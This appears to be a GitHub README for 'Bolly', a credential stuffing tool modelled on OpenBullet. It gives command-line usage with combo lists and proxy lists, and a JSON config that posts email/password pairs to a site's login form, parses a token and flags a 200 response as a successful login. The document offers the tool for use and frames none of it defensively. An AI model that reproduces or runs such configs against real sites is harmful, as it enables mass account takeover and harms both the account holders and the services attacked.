 # Bolly

Bolly is an credentials stuffing tool based on OpenBullet high performance because it reuses the same http client [httpclient best practices](https://www.thecodebuzz.com/using-httpclient-best-practices-and-anti-patterns/)

# Usage

Open your cmd and past
```
> Bolly.exe your_config.json your_combos.txt
```
you can also specify a list of proxies ( http only )
```
> Bolly.exe your_config.json your_combos.txt your_proxies.txt
```

# Config Example

```json
{
   "Settings":{
      "Name":"Site",
      "UseCookies":false,
      "AllowAutoRedirect":true,
      "MaxDegreeOfParallelism":1
   },
   "Blocks":[
      {
         "Type":"Request",
         "Methode":"Post",
         "Url":"https://www.site.com",
         "ContentType":"application/x-www-form-urlencoded",
         "Content":"email=<USERNAME>&password=<PASSWORD>",
         "Headers":[
            "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
            "Pragma: no-cache",
            "Accept: */*"
         ],
         "LoadSource":true
      },
      {
         "Type":"Parse",
         "ParseName":"TOKEN",
         "Source":"<SOURCE>",
         "Methode":"LR",
         "FirstInput":"LeftInput",
         "SecondInput":"RightInput",
         "Capture":false
      },
      {
         "Type":"KeyCheck",
         "KeyCheckPatterns":[
            {
               "Status":"Invalid",
               "Source":"<SOURCE>",
               "Condition":"Contains",
               "Key":"InvalidKey"
            },
            {
               "Status":"Success",
               "Source":"<RESPONSECODE>",
               "Condition":"Equal",
               "Key":"200"
            }
         ],
         "RetryIfNotFound":true
      }
   ]
}
```
